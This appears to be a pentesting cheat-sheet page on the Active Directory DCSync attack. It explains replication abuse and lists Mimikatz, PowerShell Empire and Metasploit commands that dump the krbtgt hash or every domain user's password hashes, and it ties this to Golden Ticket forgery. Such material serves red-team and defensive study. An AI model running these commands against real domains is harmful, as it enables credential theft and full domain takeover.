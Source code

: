# DCSync

The most of the Organisation need more than one domain controller for their Active Directory and to maintain consistency among multiple Domain controller, it is necessary to have the Active Directory objects replicated through those DCs with the help of MS-DRSR refer as Microsoft feature Directory Replication Service \(DRS\) Remote Protocol that is used to replicate users data from one DC to another. Taking Advantage of this feature the attack abuse the MS-DRSR using Mimikatz-DCSYNC.

{% hint style="info" %}
Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.
{% endhint %}

## **DCSYNC Attack**

The Mimikatz DCSYNC-function allows an attacker to replicate Domain Controller \(DC\) behaviour. Typically impersonates as a domain controller and request other DC’s for user credential data via GetNCChanges.

But compromised account should be a member of administrators, Domain Admin or Enterprise Admin to retrieve account password hashes from the others domain controller. As a result, the intruder will build Kerberos forged tickets using a retrieved hash to obtain any of the Active Directory ‘s resources and this is known as **Golden Ticket** attack.

{% hint style="info" %}
**For this attack to work, we need to have a user account with domain admins membership.**
{% endhint %}

### **Using Mimikatz DCSync**

```text
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

{% hint style="info" %}
Read-Only Domain Controllers are not allowed to pull password data for users by default.
{% endhint %}

### **PowerShell Empire**

```text
usemodule credentials/mimikatz/dcsync_hashdump
set user krbtgt
execute
```

the Empire has a similar module that retrieves the hash of the entire domain controller users account.

```text
usemodule credentials/mimikatz/dcsync_hashdump
execute
```

### **Metasploit**

If you have meterpreter session of the victim machine who account is member of domain admin, then here also you can execute Mimikatz-DCSYNC attack in order to obtain user’s password.

```text
load kiwi
dcsync_ntlm krbtgt
dcsync krbtgt
```









